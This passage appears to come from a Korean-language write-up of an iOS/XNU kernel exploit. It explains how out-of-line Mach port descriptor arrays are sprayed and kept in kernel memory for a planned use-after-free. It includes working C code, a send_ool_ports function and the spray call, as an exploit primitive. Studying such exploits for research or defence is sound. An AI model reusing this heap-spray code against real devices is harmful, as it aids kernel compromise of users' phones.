 이상적으로는 여러 개의 out-of-line 포트 배열을 할당하는 것이 좋지만, 이 배열들이 `kalloc()`으로 할당되므로 `KMA_ATOMIC` 플래그가 설정된다. 따라서 부분적으로만 해제될 수 없습니다.

즉, 추가 배열을 할당할 때마다 최소 해제 크기가 증가하며, 더 많은 `kfree()` 버퍼 메모리를 할당해야 한다는 의미가 됩니다.
> 

`(7 * pagesize) / sizeof(uint64_t)`에 `1`을 더하여 `ool_port_count`를 7페이지 넘게끔 조정함으로써, 8페이지짜리로 OOL 포트 디스크립터 배열을 생성한다.

sock port 2 익스플로잇에서의 OOL 포트 스프레이 과정과 비슷하게
`send_ool_port` 함수는 메시지가 **전송(`MACH_SEND_MSG`)** 되지만 **수신되지는 않는다**는 점을 이용하여 메시지의 대상 포트가 파괴되기 전까지는 메시지가 **커널 공간에 남아 있도록 만든다.**

하지만 `target_port`가 `MACH_PORT_NULL`로 되어있기에 
사용자 모드 Task Port가 커널 모드 Task Port의 주소로 변환되지는 않아서, 
커널에서 저장되는 최종 메시지 내용은 NULL로 채워진다.

할당된 해당 OOL 포트 배열 역시, 추후 UAF될 전망이다.

```cpp
int send_ool_ports(mach_port_t where, mach_port_t target_port, int count, int disposition) {
    kern_return_t ret;
    
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = where;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    ret = mach_msg(&msg->hdr, MACH_SEND_MSG|MACH_MSG_OPTION_NONE, msg->hdr.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    
    free(msg);
    free(ports);
    
    if (ret) {
        printf("[-] Failed to send OOL message: 0x%x (%s)\n", ret, mach_error_string(ret));
        return KERN_FAILURE;
    }
    
    return 0;
}

...

// allocate ool buffer which we'll also UAF
    mach_port_t ool_message_port = POP_PORT();
    int ool_ports_count = (7 * pagesize) / sizeof(uint64_t) + 1;
    ret = send_ool_ports(ool_message_port, MACH_PORT_NULL, ool_ports_count, MACH_MSG_TYPE_COPY_SEND);
```